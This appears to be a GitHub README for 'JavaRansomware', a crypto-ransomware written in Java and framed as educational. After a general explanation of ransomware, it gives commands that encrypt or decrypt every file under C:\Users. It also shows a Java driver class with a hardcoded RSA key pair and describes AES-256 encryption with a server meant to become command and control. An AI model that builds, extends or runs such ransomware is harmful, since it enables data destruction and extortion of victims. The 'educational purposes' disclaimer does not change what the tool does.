 # JavaRansomware
<p>Ransomware is malware for data kidnapping, an exploit in which the attacker encrypts the victim's dataRansomware stops you from using your PC.Ransomware spreads through e-mail attachments, infected programs and compromised websites. A ransomware malware program may also be called a cryptovirus, cryptotrojan or cryptoworm It holds your PC or files for "ransom".</p>

#What does ransomware do?
<p>There are different types of ransomware. However, all of them will prevent you from using your PC normally, and they will all ask you to do something before you can use your PC.

They can target any PC users, whether it’s a home computer, endpoints in an enterprise network, or servers used by a government agency or healthcare provider.

Ransomware can:</p>

* Prevent you from accessing Windows.

* Encrypt files so you can't use them.

* Stop certain apps from running (like your web browser).

<p>Ransomware will demand that you pay money (a “ransom”) to get access to your PC or files. We have also seen them make you complete surveys.

There is no guarantee that paying the fine or doing what the ransomware tells you will give access to your PC or files again.</p>

# Project Summary
This project aims to build an almost functional crypto-ransomware for educational purposes, written in in pure java. Basically, it will encrypt your files in background using AES-256, a strong encryption algorithm, using RSA-4096 to secure the key exchange with server. Yeah, a Cryptolocker like malware.

It is composed of two main parts, the server and the malware itself.

The server is responsible for store the Id and the respective encryption key and possibly act as a Command and Control server in the near future.

The malware encrypt with your RSA-4096 public key any payload before send then to the server. This approach with the https transport together make the security and authentication almost unbreakable (in theory)

#Usage and How it Works
<p>The easiest way to run this Project is to use the the .jar open a cmd terminal and simply run the below commands <p>

 ```
 $ cd JarPath
```

<p>Encrypt All Files in the Current Path <p>
 ```
 $ java -jar JavaRansomware.jar C:\Users Encrypt
```

<p>Decrypt All Files in the Current Path <p>
 ```
 $ java -jar JavaRansomware.jar C:\Users Decrypt
```
<p>if you want to use the project programmatically just put the below code in your project and simply run it. Don't forget to give Input arguments from the Command-Line Arguments. i've put  a printscreen to see how to give Paramaters<p>

<h2>Java Manual</h2>
```java
public class App {
   private static final String PubicKey = "MFwwDQYJKoZIhvcNAQEBBQADSwAwSAJBAJCw1HHQooCFGsGhtxNrsdS6dDq5jtfHqqLInCj7qFlDaD/Sll5+BAUjV0GU/c+6PVyMKzmLrHh49eeGQy1ETN8CAwEAAQ==";
    private static final String PrivateKey = "MIIBVAIBADANBgkqhkiG9w0BAQEFAASCAT4wggE6AgEAAkEAkLDUcdCigIUawaG3E2ux1Lp0OrmO18eqosicKPuoWUNoP9KWXn4EBSNXQZT9z7o9XIwrOYuseHj154ZDLURM3wIDAQABAkA9AnLx8tkye+2GTBwYEkcPvfcYc/mpPsXSkehW15Zq3IALx3Kr5GgKGOaB2FK6PU0QzEPQbNJXdA5ZPjwTDcQBAiEA1/zINRVlrLpw2HPfqsYQ8ZSDuG2rVUUKKmKgJQXeQ98CIQCrfsw2+VKOaFoJm5BpVxIT5nsE8CXn4fr/WSFuklMXAQIgTKWnAreCKmbLTvTn5bl+H8zdZaB9kbf7YIk5XYoUky8CIQCL2ccnPYK5ZxelphrKDJtNZzMC/+OpiXtqKIE+7kycAQIgRK/DUhWUgSQV5u7VoCHDyLPCntjFMGBsg7Wi1uq+EDM=";

    private static final String ENCRYPT = "ENCRYPT";
    private static final String DECRYPT = "DECRYPT";

    public static void main(String[] args) throws RansomwareException {

        Processing(args[0], args[1]);
    }

    private static void Processing(final String toSearch, final String attack) throws RansomwareException {
        final RansomProcess p = new RansomProcess(toSearch);

        if (attack.equalsIgnoreCase(ENCRYPT))
            p.StartEncryptProcess(PubicKey);
        else if (attack.equalsIgnoreCase(DECRYPT))
            p.StartDecryptProcess(PrivateKey);
        else
            throw new RansomwareException("Mismatched Values Try again with correct one");

    }

}
```
---

> DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT!

#Legal Warning
While this may be helpful for some, there are significant risks. JavaRansomware may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail if if you will use it for malicious purposes.


#Contribute
 1. Fork it: git clone https://github.com/PanagiotisDrakatos/JavaRansomware.git
 2. Create your feature branch: git checkout -b my-new-feature
 3. Commit your changes: git commit -am 'Add some feature'
 4. Push to the branch: git push origin my-new-feature
 5. Submit a pull request :D
 
#License
<p> This project is licensed under the MIT License - see the<a href="https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/LICENSE">Licence.md</a>file for details</p>

